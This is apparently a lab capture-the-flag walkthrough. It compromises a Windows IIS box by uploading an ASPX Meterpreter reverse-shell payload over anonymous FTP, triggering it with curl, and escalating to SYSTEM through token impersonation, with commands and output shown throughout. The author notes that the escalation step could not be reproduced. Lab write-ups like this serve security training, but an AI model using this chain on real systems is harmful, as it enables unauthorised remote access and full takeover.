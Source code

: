 1. we have anonymous access to ftp:
```
λ ftp anonymous@10.10.10.5
```
2. it's clear that we can access the files we upload with the web server, how neat is
   that? let's make a payload.

```
msfpc ASPX 4454
# for ip choose the tunnel device with the vpn ip in the
# htb network: 5.) utun2 - 10.10.x.y
```
This creates an `exe` file as well as a profile for metasploit.

3. listen to the shell calling in:
```
msfconsole -q -r 'windows-meterpreter-staged-reverse-tcp-4454-aspx.rc'
```

4. Uploading the file by ftp:

```
λ ftp anonymous@10.10.10.5
> put windows-meterpreter-staged-reverse-tcp-4454.aspx
> exit
λ curl 10.10.10.5/windows-meterpreter-staged-reverse-tcp-4454.aspx
```

5. in the `msfconsole` we now have a meterpreter shell, we can switch to it by using
```
sessions -i <number>
```

6. we have a low privilege account, no user:
```
meterpreter > getuid
Server username: IIS APPPOOL\Web
meterpreter > cd /
meterpreter > mkdir tmp
meterpreter > getprivs
============================================================
Enabled Process Privileges
============================================================
  SeAssignPrimaryTokenPrivilege
  SeAuditPrivilege
  SeChangeNotifyPrivilege
  SeCreateGlobalPrivilege
  SeImpersonatePrivilege
  SeIncreaseQuotaPrivilege
  SeIncreaseWorkingSetPrivilege
  SeShutdownPrivilege
  SeTimeZonePrivilege
  SeUndockPrivilege
meterpreter > upload potato.exe
meterpreter > use incognito
meterpreter > list_tokens -u
[-] Warning: Not currently running as SYSTEM, not all tokens will be available
             Call rev2self if primary process token is SYSTEM

Delegation Tokens Available
========================================
IIS APPPOOL\Web

Impersonation Tokens Available
========================================
NT AUTHORITY\IUSR
```

Okay, so nothing of interest. Let's get things going:
```
meterpreter >  list_tokens -u
[-] Warning: Not currently running as SYSTEM, not all tokens will be available
             Call rev2self if primary process token is SYSTEM

Delegation Tokens Available
========================================
IIS APPPOOL\Web
NT AUTHORITY\SYSTEM

Impersonation Tokens Available
========================================
NT AUTHORITY\IUSR
meterpreter > impersonate_token "NT AUTHORITY\\SYSTEM"
[-] Warning: Not currently running as SYSTEM, not all tokens will be available
             Call rev2self if primary process token is SYSTEM
[+] Delegation token available
[+] Successfully impersonated user NT AUTHORITY\SYSTEM
meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
```

(can't reproduce that …)
… and done.
